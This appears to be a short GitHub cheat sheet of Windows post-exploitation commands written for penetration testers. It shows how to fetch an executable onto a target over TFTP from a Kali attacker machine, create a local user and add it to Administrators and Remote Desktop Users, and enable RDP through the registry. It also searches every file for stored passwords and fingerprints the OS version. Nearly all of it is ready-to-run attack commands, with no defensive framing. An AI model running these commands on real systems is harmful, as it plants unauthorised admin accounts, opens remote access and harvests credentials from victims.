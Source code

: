 # windows-stuff
### Install TFTP (Windows 7, Windows Vista, Windows Server 2008/2008 R2)
pkgmgr /iu:"TFTP"

C:\>tftp -i IPADDRESS get FILE.EXE
	
Make sure it is set up/running on Kali

mkdir /tftp

atftpd --daemon --port 69 /tftp

cp /FILE.EXE /tftp/


### Add a local user account
net user tester testing /ADD

### Add a local user account to the Local Administrators group
net localgroup administrators tester /ADD

### Add a local user account to the Remote Desktop Users group
net localgroup "Remote Desktop Users" tester /ADD

### Enable RDP on the system (port 3389)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Search for a file
C:\> dir filename.txt /s

### Search for a string in all files
findstr /S /I /M password c: \*

  Go crazy:   findstr /si password *.txt | *.xml | *.ini | *.doc | *.snt | *.html | *.rtf | *.docx | *.eml | *.msg
	  
	  More info on options: https://en.wikipedia.org/wiki/Findstr

### Windows System Version
systeminfo | findstr /B /C: "OS Name" /C:"OS Version"

systeminfo

ver

### Directory Traversal
Windows/system32/Eula.txt -- This will often show you exact version of Windows running including Language
